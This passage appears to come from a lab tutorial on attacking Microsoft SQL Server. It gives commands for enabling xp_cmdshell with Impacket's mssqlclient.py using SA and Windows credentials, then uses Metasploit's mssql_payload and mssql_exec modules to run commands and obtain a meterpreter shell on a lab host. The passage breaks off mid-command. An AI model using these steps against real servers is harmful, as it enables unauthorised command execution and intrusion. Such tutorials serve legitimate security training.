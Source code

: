 To use mssqlclient.py, we need to specify the username, domain, password, the target IP address, and the Port hosting the MSSQL service as shown in the image. here we can use the command **enable_xp_cmdshell** to enable command shell functionality on the target machine.

python3 mssqlclient.py WORKGROUP/sa:Password@1@192.168.1.146 -port 1433

enable_xp_cmdshell

![](https://i0.wp.com/1.bp.blogspot.com/-Y1dj1nlrdYY/YR_oy-XcnyI/AAAAAAAAyO8/RYrBZRhwmGIa2x78VX1qFj148_myFlofwCLcBGAsYHQ/s16000/13.png?w=640&ssl=1)

Again, we can verify it similarly to what we did with the GUI approach and the sqsh approach. Here we can see that we were able to enable the XP command shell functionality with the help of mssqlclient, which is a part of the Impact toolkit.

![](https://i0.wp.com/1.bp.blogspot.com/-ry0CY6INxgU/YR_pGtrGXVI/AAAAAAAAyPQ/7V645vMDCSIuZMfKnc4-O6pNXpdVe3DCQCLcBGAsYHQ/s16000/14.png?w=640&ssl=1)

Previously, mssqlclient.py is used to connect the database through database credentials having username **SA**. Now we are connecting with the database by window’s user login credential.

![](https://i0.wp.com/1.bp.blogspot.com/-bOxgpXApafc/YR_uro2sLMI/AAAAAAAAyQ0/Z7z-69Bh6pwRUiHp5dG8S6y08ArwQgJrACLcBGAsYHQ/s16000/15.png?w=640&ssl=1)

python3 mssqlclient.py ignite:'Password@123'@192.168.1.146 -windows-auth

enable_xp_cmdshell

![](https://i0.wp.com/1.bp.blogspot.com/-6VXI6F3fGeo/YR_pU5eDQkI/AAAAAAAAyPY/zBVodOYdYMIrVuaoR1TRe9lknSuHhHbVACLcBGAsYHQ/s16000/16.png?w=640&ssl=1)

**Metasploit**

As usual, Metasploit also plays its role to enable the XP command shell and helps us exploit the target and provide the session.

use exploit/windows/mssql/mssql_payload

set rhosts 192.168.1.146

set password Password@1

exploit

![](https://i0.wp.com/1.bp.blogspot.com/-mYMbcfn_VEk/YR_piH8xHFI/AAAAAAAAyPg/bs44rRpMr647TghZ3-axu8WD5kZ3r9VCgCLcBGAsYHQ/s16000/20.png?w=640&ssl=1)

The exploit does not stop at just enabling the XP command shell. It then runs a series of commands that can help to get us a meterpreter shell on the target machine as shown in the image below

![](https://i0.wp.com/1.bp.blogspot.com/-QfTfLnZCCX0/YR_pqonM_OI/AAAAAAAAyPo/QKi1frc7440WFLHOXg2eQdlaUOk9aR7CgCLcBGAsYHQ/s16000/21.png?w=640&ssl=1)

### Exploiting xp_cmdshell

**Metasploit**

You can use another exploit mssql_exec, which primarily enables the xp_cmd shell, and we can also set any cmd executable command. Here we set the cmd command to “**ipconfig**“ 

use auxiliary/admin/mssql/mssql_exec

set rhosts 192.168.1.146
